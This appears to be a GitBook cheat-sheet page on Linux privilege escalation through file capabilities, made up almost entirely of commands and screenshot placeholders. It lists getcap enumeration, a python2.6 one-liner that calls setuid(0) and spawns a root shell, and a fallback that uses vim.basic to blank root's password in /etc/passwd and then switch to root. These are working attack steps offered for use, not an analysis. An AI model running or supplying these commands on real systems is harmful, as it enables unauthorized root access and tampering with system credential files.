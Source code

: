 # capability

get system capability

```
 getcap -r / 2>/dev/null 
```

<figure><img src="../../../.gitbook/assets/image (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

```
usr/bin/python2.6  -c 'import os; os.setuid(0); os.system("/bin/sh")'
```

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

***

***

> try to edit on `/etc/passwd` if the first case not work

```
echo -e ':%s/^root:[^:]*:/root::/\nwq!' | /usr/bin/vim.basic -es /etc/passwd

su root
```

<figure><img src="../../../.gitbook/assets/image 2 (1) (1) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>

